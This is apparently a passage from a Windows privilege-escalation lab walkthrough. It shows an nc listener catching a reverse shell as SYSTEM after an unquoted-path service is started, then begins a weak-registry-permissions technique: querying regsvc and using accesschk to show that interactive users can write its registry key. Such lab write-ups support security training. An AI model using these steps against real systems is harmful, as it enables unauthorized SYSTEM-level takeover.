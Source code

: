 - Start a listener and start the service to spawn reverse shell as SYSTEM

```powershell
net start unquotedsvc # replace 'unquotedsvc' with service name

###################################################

❯ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.159.9 49878
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



### **Weak Registry Permissions**



- Query the "`regsvc`" service and note that it runs with SYSTEM privileges


```powershell
C:\PrivEsc>sc qc regsvc

# sc qc <SERVICE>

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem # <= value set to "LocalSystem"
```

- Note that the registry entry for the `regsvc` service is writable by the "`NT AUTHORITY\INTERACTIVE`" group (essentially all logged-on users):


```powershell
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc                                                                                          

# C:\PrivEsc\accesschk.exe /accepteula -uvwqk <PATH_TO_regsvc_SERVICE>                                                                                                     
HKLM\System\CurrentControlSet\Services\regsvc                                                                                                                                                 
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE # <= What we need
        KEY_ALL_ACCESS
```
